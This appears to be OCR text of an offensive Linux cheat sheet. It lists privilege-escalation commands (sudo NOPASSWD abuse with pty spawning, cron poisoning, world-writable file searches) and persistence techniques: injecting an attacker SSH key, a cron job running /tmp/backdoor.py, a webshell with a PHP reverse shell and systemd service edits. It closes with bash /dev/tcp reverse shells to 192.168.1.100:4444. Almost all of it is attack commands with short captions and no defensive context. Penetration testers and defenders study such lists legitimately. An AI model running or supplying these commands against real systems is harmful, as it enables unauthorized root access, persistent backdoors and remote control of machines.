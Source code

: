 **Sudo Abuse**
```bash
sudo -l | grep NOPASSWD
sudo /usr/bin/python -c 'import pty; pty.spawn("/bin/bash")'
sudo /bin/bash
```
Exploit misconfigured sudo entries.

**Cron Job Poisoning**
```bash
crontab -l
for user in $(cut -f1 -d: /etc/passwd); do crontab -u $user -l 2>/dev/null; done
cat /etc/cron.d/*
```
Identify and exploit writable cron scripts.

**Weak File Permissions**
```bash
find / -perm -002 -type f 2>/dev/null
find / -writable -type f 2>/dev/null
```
Exploit world-writable files for privilege escalation.

### Persistence

**SSH Key Injection**
```bash
mkdir -p ~/.ssh
echo "attacker_public_key" >> ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys
```
Add SSH key for persistent backdoor access.

**Cron Job Installation**
```bash
crontab -e
(crontab -l 2>/dev/null; echo "*/5 * * * * /usr/bin/python /tmp/backdoor.py") | crontab -
```
Create cron job for recurring command execution.

**Webshell Installation**
```bash
cp /tmp/shell.php /var/www/html/
php -r '$sock=fsockopen("IP",PORT);exec("/bin/bash -i <&3 >&3 2>&3");'
```
Install web-based backdoor for persistent access.

**Service Modification**
```bash
systemctl edit service-name
/etc/init.d/service-name modify
```
Modify systemd services for persistence.

### Post-Exploitation

**Reverse Shell - Bash**
```bash
bash -i >& /dev/tcp/192.168.1.100/4444 0>&1
/bin/bash -c 'bash -i >& /dev/tcp/192.168.1.100/4444 0>&1'
```
Interactive bash reverse shell for remote access.

